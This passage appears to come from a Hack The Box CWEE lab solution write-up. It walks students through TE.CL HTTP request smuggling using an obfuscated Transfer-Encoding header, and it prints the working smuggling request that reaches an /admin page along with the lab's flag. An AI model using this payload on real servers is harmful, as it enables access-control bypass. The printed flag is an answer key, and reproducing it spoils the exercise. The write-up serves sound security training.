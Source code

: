 Afterward, students need to group the two tabs, set the sending option to `Send group (single connection)`, and untick `Update Content-Length` for the POST request:

![[HTB Solutions/CWEE/z. images/a192ce35ba8fcd8eb8461769665846f9_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/9e7e2efc7062a7e5b05f1dc99702511e_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/2739303f524aed890e661ab3b70efeee_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/0e138c51f65351f02ba3acab68ade979_MD5.jpg]]

After sending the requests and checking their responses, students will notice that the GET request received a `400 Bad Request` response, as it was influenced by the first request:

![[HTB Solutions/CWEE/z. images/6da3ec567836361fe1c43c0ce1953e16_MD5.jpg]]

Now that students have confirmed that the deployment is vulnerable to `TE.CL` (via the `Substring match` `TE.TE` method), they need to smuggle a request to the `/admin` webpage by sending two GET requests to `/404`. To calculate the chunk size, students can highlight all of the smuggled request up until before the empty chunk and convert the number of characters from decimal to hexadecimal (51 is 33 in hex):

Code: http

```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: asdchunked

33
GET /admin HTTP/1.1
Host: STMIP:STMPO
  

0
```

![[HTB Solutions/CWEE/z. images/58e76cac7ed26f523a1e956cd9408ab4_MD5.jpg]]

While the second request is also a GET to `/404`:

Code: http

```http
GET /404 HTTP/1.1
Host: STMIP:STMPO
```

After sending both requests in a single connection, students will notice that the first requests got received a `404 Not Found` response:

![[HTB Solutions/CWEE/z. images/d6d9bd13e51cb91b61ef2d4113cbb5a6_MD5.jpg]]

While the second request's response contains the flag `HTB{c73a37d8fbef9c32ce29b8c722922ef1}` as it returned the `/admin` webpage:
